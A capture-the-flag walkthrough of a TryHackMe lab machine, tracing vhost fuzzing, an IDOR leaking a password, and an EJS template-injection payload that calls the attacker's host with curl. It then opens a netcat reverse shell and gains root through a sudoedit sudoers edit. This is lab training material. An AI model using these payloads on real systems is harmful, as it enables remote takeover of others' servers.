# Dav CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Dav** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtdav). 
---


we see 2 open ports 22 and 80



we need to add cyprusbank.thm to `/etc/hosts`

using feroxbuster without any result

used ffuf to find subdomains/vhosts

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://$IP:80 -H 'Host: FUZZ.cyprusbank.thm' -fs 57
```



we found `www` and `admin` adding them to /etc/hosts

we found login page at admin.cyprusbank.thm



TryHackMe provides us with some credentials, and those work so we can login as `Olivia Cortez`

ok we can see that messages panel uses get paramtere to display the chat, we can manipulate the address to 

```
http://admin.cyprusbank.thm/messages/?c=0
```

there is an IDOR vulnerability, now we can see `Gayle Bev` password



we found Tyrell Wllick's phone number



we now also have access to settings page



after entering `test:123` we see that 123 was shown on the page



if we capture and modify our request so it only sends `name=ww` we can see the error msg



i found this payload to test if we have EJS Server Side Template Injection (SSTI)

```
name=abc&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.14.X.X:8081');s
```


after clicking send we got hit to our server so we might be able to smuggle the reverse shell in tha payload



this payload should work

```
name=abc&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.14.91.59 4445 -e /bin/bash');s
```

we have reverse shell as `web`



we found user flag



here is the `sudo -l` output:



to priv esc we need stable shell and then we need to use

```
$ export EDITOR="nano -- /etc/sudoers"
$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

we need to change sudoers file so we can use sudo su witout a password



we got root access and root flag



# MACHINE PWNED
